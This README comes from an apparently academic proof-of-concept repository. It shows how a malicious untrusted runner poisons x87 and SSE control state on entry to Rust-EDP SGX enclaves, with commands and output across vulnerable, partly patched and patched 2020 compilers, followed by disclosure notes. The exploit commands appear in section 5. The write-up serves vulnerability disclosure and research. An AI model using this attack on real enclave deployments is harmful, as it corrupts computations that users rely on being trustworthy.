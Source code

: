 # Proof-of-concept Rust-EDP exploitation with malicious runner

This directory includes a minimal PoC showcasing insufficient ABI sanitization
in Rust-EDP. The PoC shows that untrusted code controls x87 and SSE
configuration registers on enclave entry, which got fixed after our disclosure
in newer Rust-EDP versions. We furhtermore show that the initial fix did not
suffice and attackers could still override the expected result of an exemplary
x87 FPU computation with unexpected NaN outcomes. This too got fixed after our
disclosure in newest Rust-EDP versions.

## Building and running

The untrusted runner is included in a fork of the rust-sgx repo, while the
trusted enclave runtime is part of the Rust compiler. Instructions below also
include how to easily switch between vulnerable and patched compiler versions.

### Install vulnerable Rust-EDP

#### 1. Install Rust dependencies

```bash
$ curl --proto '=https' --tlsv1.2 -sSf https://sh.rustup.rs | sh
$ source $HOME/.cargo/env
```

#### 2. Switch to vulnerable Rust compiler version

```bash
$ rustup default nightly-2020-02-01
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
$ rustc --version
rustc 1.42.0-nightly (cd1ef390e 2020-01-31)
```

#### 3. Install malicious Rust-EDP runner

```bash
$ cd rust-sgx-fpu/
$ cargo install --locked --path ./fortanix-sgx-tools fortanix-sgx-tools
$ cargo install --locked --path ./sgxs-tools sgxs-tools
$ echo >> ~/.cargo/config -e '[target.x86_64-fortanix-unknown-sgx]\nrunner = "ftxsgx-runner-cargo"'
```

#### 4. Test Rust-EDP installation (only on SGX hardware)

```bash
$ sgx-detect           # Check your SGX harware setup
$ cd ../hello-world/   # Run the test enclave without poisoning
$ cargo run --target x86_64-fortanix-unknown-sgx
   Compiling cc v1.0.54
   Compiling hello-world v0.1.0 (/home/jo/Documents/faulty-point-unit/02_table2_affected_runtimes/rust-edp/hello-world)
    Finished dev [unoptimized + debuginfo] target(s) in 1.45s
     Running `ftxsgx-runner-cargo target/x86_64-fortanix-unknown-sgx/debug/hello-world`
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000
```

#### 5. Run proof-of-concept attack

##### 5.1 Vulnerable Rust-EDP version (poison SSE MXCSR + x87 control word + x87 tag)

```bash
$ rustup default nightly-2020-02-01
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-02-01
$ rustc --version
rustc 1.42.0-nightly (cd1ef390e 2020-01-31)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> vulnerable
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x47f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135671854019165039062500000000000000000000000000000000000000

# Now run with the x87 FPU in MMX mode --> vulnerable
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

##### 5.2 Initially patched Rust-EDP version (poison x87 tag)

```bash
$ rustup default nightly-2020-06-09
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-06-09
$ rustc --version
rustc 1.46.0-nightly (fd4b177aa 2020-06-08)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> patched
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

# Now run with the x87 FPU in MMX mode --> vulnerable
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906846290946305089164525270462036132812500000000000000
MXCSR   = 0x5fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = NaN
```

##### 5.3 Latest fully patched Rust-EDP version

```bash
$ rustup default nightly-2020-07-05
$ rustup target add x86_64-fortanix-unknown-sgx --toolchain nightly-2020-07-05
$ rustc --version
rustc 1.46.0-nightly (0cd7ff7dd 2020-07-04)

# First run the test enclave without poisoning
$ cargo clean
$ cargo run --target x86_64-fortanix-unknown-sgx

# Now run with the malicious FPU poisoning runner (x87 single precision, round down) --> patched
$ fpu-runner --fpu=1087 ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] poisoning FPUCW with 0x43f
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000

# Now run with the x87 FPU in MMX mode --> patched
$ fpu-runner --mmx ./target/x86_64-fortanix-unknown-sgx/debug/hello-world.sgxs
[attacker] MXCSR=0x5f80
[attacker] putting CPU in MMX mode..
[enclave] Hello, world!
Pi      = 3.1411454399906841850054206588538363575935363769531250000000000000
MXCSR   = 0x1fa0
FPUCW   = 0x37f
num     = 0.1234567889999999973360544913703051861375570297241210937500000000
2*num   = 0.2469135779999999946721089827406103722751140594482421875000000000
add_fpu = 0.2469135779999999946721089827406103722751140594482421875000000000
```

## Disclosure and mitigation

We disclosed the core FPU sanitization issue in December 2019 which was addressed with a `ldmxcsr/csw` instruction [<https://github.com/rust-lang/rust/pull/69040>].

After further investigation, we found that this left the attacker open to perform the MMX attack as described in the paper. We also disclosed this issue and it is patched in the Rust compiler in version 1.46.0. The mitigation can be followed via this Pull Request [<https://github.com/rust-lang/rust/pull/73471>].
